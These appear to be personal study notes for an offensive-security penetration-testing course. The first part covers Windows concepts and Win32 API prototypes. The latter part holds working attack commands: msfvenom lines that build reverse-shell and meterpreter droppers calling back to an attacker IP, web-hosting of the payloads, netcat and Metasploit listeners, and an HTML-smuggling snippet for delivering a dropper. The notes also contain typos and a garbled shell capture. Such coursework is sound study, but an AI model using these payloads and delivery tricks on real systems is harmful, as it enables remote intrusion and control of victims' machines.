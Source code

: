 password: @Hide01

# chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter.


### HTML smuggling directly

Although this works well, it exposes the filename and extension of the dropper and requires the 
user to manually click on the link. To avoid this we can trigger the download from an embedded 
JavaScript file. This method feeds the file as an octet stream and will download the assembled 
file without user interaction.

### space racoon advice

https://spaceraccoon.dev/offensive-security-experienced-penetration-tester-osep-review-and-exam


